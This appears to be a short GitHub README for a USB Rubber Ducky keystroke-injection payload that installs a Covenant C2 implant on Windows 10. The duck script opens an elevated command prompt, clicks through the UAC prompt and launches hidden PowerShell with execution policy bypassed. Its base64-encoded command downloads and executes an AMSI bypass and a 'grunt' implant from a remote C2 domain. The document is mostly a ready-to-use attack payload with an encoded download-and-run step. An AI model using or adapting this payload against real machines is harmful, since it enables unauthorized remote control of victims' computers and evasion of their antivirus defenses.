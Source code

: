 ﻿# RubberDuck-loads

## Covenant c2 Powershell

Running Microsoft Windows 10 - 10.0.19002.0

Host the PowerShell Launcher on Covenant, grab the URL and drop it into the PowerShell, include an AmsiBypass (Credits to https://rastamouse.me/) and then encode the payload and drop it on the duck.


### Duck payload:
```
DELAY 750  
GUI r 
DELAY 1000 
STRING powershell Start-Process Cmd.exe -Verb runAs 
ENTER
DELAY 750  
ALT y
ENTER
DELAY 750
STRING powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Sta -NoProfile -encodedCommand aQBlAHgAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwB3AHcAdwAuAG0AeQBjADIALgBuAGUAdAAvAGEAbQBzAGkALgB0AHgAdAAnACkAKQA7AGkAZQB4ACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AdwB3AHcALgBtAHkAYwAyAC4AbgBlAHQALwBnAHIAdQBuAHQALgB0AHgAdAAnACkAKQA7AA==
ENTER
```

![alt text](Grunt-RubberDuck.PNG)
